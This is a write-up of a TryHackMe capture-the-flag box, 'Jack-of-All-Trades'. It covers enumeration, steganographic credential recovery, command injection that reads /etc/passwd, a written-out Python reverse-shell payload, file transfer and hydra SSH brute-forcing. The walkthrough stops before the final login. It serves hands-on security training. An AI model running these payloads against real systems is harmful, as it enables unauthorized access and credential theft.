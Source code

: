 # 'Jack-of-All-Trades' box writeup
## Jack of All Trades is a CTF box written by MuirlandOracle and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [How to allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274)
## ![bg](images/backgroundjack.jpeg?raw=true "Title")
+ **We deploy the machine and start with an nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.252.248``
      
+ **We can see 2 open ports with some services: ssh and http. The first strange thing is that the services are opened on reversed ports. Ssh is opened on the 80 ports and http on the 22 one**

![1](images/nmap_scan_jack.jpg?raw=true "Nmap_scan")

+ **Let's try to get to the http web-site on the 22 port. We see an browser error: seems like Firefox has canceled our request for kind of security. That's because the unusual use of 22 port for the http service**

![2](images/restrict.jpg?raw=true "restrict")

**We can allow this restricted port making some configuration inside the mozilla browser: [allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274). Go into the about:config page in the url, search for the ports and add the network.security.ports.banned.override string, with the 22 value**

![3](images/add_string.png?raw=true "add_string")

![4](images/welcome.png?raw=true "welcome")

**We can see our main page, with the box title and some images in there. Let's scan with gobuster too**

``gobuster dir -u http://10.10.252.248:22/ -w /usr/share/wordlists/dirb/common.txt``

![5](images/gobust.jpg?raw=true "gobust")

+ **Let's take a look into our gobuster output. Let's visit the assets page; we can see some *jpg* files, one of them called** stego.jpg **so we can think about an encrypted image with the help of steganography**

![6](images/assets.jpg?raw=true "assets")

+ **We can try to extract the stego image to see de hidden data, so we're gonna use steghide**

``steghide --extract -sf stego.jpg``

**A passphrase is requested, so we cannot immediately decrypt the image, but we can continue to enumerate the http page. Let's take a look into the source code of the page**

+ **We can spot a message left in the source code of the page: a recovery message which tells us we can connect on the /recovery.php page and there's also a base64 encoded message**

![7](images/base64.jpg?raw=true "base64")

**Let's try to decrypt our message**

``echo "UmVtZW1iZXIgdG8gd2lzaCBxxxxxxxxxx" | base64 -d``

![8](images/decrypt.jpg?raw=true "base64")

**We got a message and a password too! Let's use it to decrypt the image with steghide**

![9](images/first_steg.jpg?raw=true "first_steg")

+ **A creds.txt file was hidden inside, but the stego.jpg wasn't the good path. Let's download the other images from the assets page and extract them**

![10](images/real_steg.jpg?raw=true "real_steg")

``steghide --extract -sf header.jpg``

**Bingo! We got a username and a password inside the header.jpg image. Let's go to the /recovery.php page and try to login with the credentials**

+ **Logging in with our credentials on the page, we are redirected to a page with the message:**

``GET me a 'cmd' and I'll run it for you Future-Jack.``

![11](images/login.jpg?raw=true "login")

**Now, let's try some system commands inside the url:**

``http://10.10.252.248:22/nnxhweOV/index.php?cmd=cat /etc/passwd``

![cmd](images/cmdworks.jpg?raw=true "cmd")

+ **It's all working, so go grab a reverse shell. I'm gonna use python and start listen with nc**

``nc -lvnp 1234``

``http://10.10.252.248:22/nnxhweOV/index.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

![12](images/access.jpg?raw=true "access")

**Here we got our access into the system. Let's spawn an interactive shell with python and continue to enumerate**

``python -c 'import pty; pty.spawn("/bin/bash")'``

+ **Looking into the /home directory, we can see a** ``jacks_password_list`` **file which seems to be a password list for the jake user. According to the second service opened, on the 80 port, the ssh service, we're gonna try to bruteforce the login with the given wordlist and with the help of the Hydra tool**

![13](images/jackspassw.jpg?raw=true "jacks")

+ **Firstly, we need to download the** ``jacks_password_list`` **file to our machine. Open a python server on the Jack box and we're gonna get the file on our's**

**The Jack box**

**``www-data@jack-of-all-trades:/home$``** ``python -m SimpleHTTPServer 6999``

**Our machine**

**``{kali@kali:Jack of All Trades_0}$``** ``wget 10.10.252.248:6999/jacks_password_list``


+ **Now, having the wordlist, let's start the bruteforce phase. Don't forget to set the port for the ssh service, because it's not on the default (22), but the 80 one**

``hydra -s 80 -v -V -l jack -P jacks_password_list -t 8 10.10.252.248  ssh``

![13](images/hydra(1).jpg?raw=true "hydra")

**Let's connect into the ssv server with our credentials**












